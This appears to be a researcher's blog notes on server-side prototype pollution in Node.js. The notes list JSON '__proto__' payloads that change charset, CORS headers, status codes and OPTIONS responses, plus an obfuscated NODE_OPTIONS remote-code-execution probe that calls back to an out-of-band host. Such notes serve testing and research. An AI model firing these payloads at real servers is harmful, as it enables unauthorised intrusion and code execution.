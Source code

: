 Gareth's [blog post](https://portswigger.net/research/server-side-prototype-pollution) is all you really need here as
there's no comparison between my notes vs his well-thought-out blog. However, I'll list a couple of payloads I liked


Bringing back UTF7!

|        | Request                                                            | Response                                    |
|--------|--------------------------------------------------------------------|---------------------------------------------|
| Before | `{"foo" : "+AGIAYQBy-"}`                                           | `HTTP/1.1 200 OK`<br/>`{"foo" : "+AGIAYQBy-"}` |
| Probe  | `{"__proto__":{"content-type":"application/json; charset=utf-7"}}` |                                             |
| After  | `{"foo" : "+AGIAYQBy-"}`                                           | `HTTP/1.1 200 OK`<br/>`{"foo" : "bar"}`     |


Modify the CORS header response

|        | Request                                     | Response                                                          |
|--------|---------------------------------------------|-------------------------------------------------------------------|
| Before | `{}`                                        | `HTTP/1.1 200 OK`<br/>`{}`                                        |
| Probe  | `{"__proto__":{"exposedHeaders": ["foo"]}}` |                                                                   |
| After  | `{}`                                        | `HTTP/1.1 200 OK`<br/>`Access-Control-Expose-Headers: foo`<br/><br/>`{}` |

Change the status code

|        | Request                         | Response       |
|--------|---------------------------------|----------------|
| Before | `{,}`                           | `HTTP/1.1 400` |
| Probe  | `{"__proto__":{"status" :510}}` |                |
| After  | `{}`                            | `HTTP/1.1 510` |

Change options responses (reset by sending a 0)

|        | Request                       | Response                             |
|--------|-------------------------------|--------------------------------------|
| Before | `OPTIONS / HTTP/1.1`          | `HTTP/1.1 200 OK`<br/><br/>`POST,GET,HEAD` |
| Probe  | `{"__proto__":{"head":true}}` |                                      |
| After  | `OPTIONS / HTTP/1.1`          | `HTTP/1.1 200 OK`<br/><br/>`POST,GET`      |

Remote code execution (false positives when site scrapes for host - simply obfuscate the host as a workaround)

```JSON
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
      "NODE_OPTIONS":"--inspect=id\"\".oastify\"|".com"
  }
}
```

That was a wrap for day one, I'll cover day two in the next post.
